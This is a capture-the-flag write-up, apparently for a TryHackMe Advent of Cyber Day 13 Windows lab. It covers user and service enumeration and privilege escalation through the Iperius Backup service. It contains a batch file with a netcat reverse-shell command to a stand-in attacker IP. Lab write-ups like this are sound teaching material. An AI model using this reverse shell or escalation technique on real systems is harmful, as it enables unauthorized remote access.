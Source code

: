 ## TASK-1 Complete the username: p.....

On the windows machine open ```cmd.exe``` and type in the command ```net users``` to list the users on the system.<br>
Under DefaultAccounts you will find the user ```REDACTED```.

## TASK-2 What is the OS version?

Run the command ```systeminfo``` to get the OS-Version.

## TASK-3/4 What backup service did you find running on the system?

Run the command ```wmic service list``` and you will find the service name along with its Absolute Path.<br>
```C:\Program Files (x86)\Iperius Backup\IperiusService.exe```.

## TASK-5 What user do you have?

This is the main exploitation phse where we will use a vulnerable application installed on the system to get a ReverseSell to our machine.<br>
You will find ```Iperious Backup``` installed on the system. Just google about the application with it's version and you will find tons of exploits.<br>

Create a bat file on the desktop or somewhere, and type in the following command.
```
@echo off
C:\Users\McSkidy\Downloads\nc.exe <ATTACKER_IP> 1234 -e cmd.exe
```

This command uses the netcat utility to connect to the attackers system. When the application tries to run the bat file it runs with the privilege of the
thegrinch user as a result we get the shell from thegrinch privilage user.

Visit this exploit [link](https://www.exploit-db.com/exploits/46863) for detailed documentation of the exploit and ways to reproduce.

<b>If you get stuck somewhere even after going through the documentation, Check out [HuskyHacks Video](https://www.youtube.com/watch?v=zIR7Is90N30).</b>

## TASK-6 What is the content of the flag.txt file?

After you get a shell of thegrinch. You will find the ```flag.txt``` inside the Documents directory.```THM-REDACTED```.

## TASK-7 The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?

type out the contents of the schedule.txt file inside ```C:\Users\thegrinch\Documents```.

```
C:\Users\thegrinch\Documents>type Schedule.txt
type Schedule.txt
Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - REDACTED
6:30 - dinner with me. I can't cancel that again 
7:00 - wrestle with my self-loathing
```

<h3><b>That's it for Day-13. Happy Hacking!</h3></b>
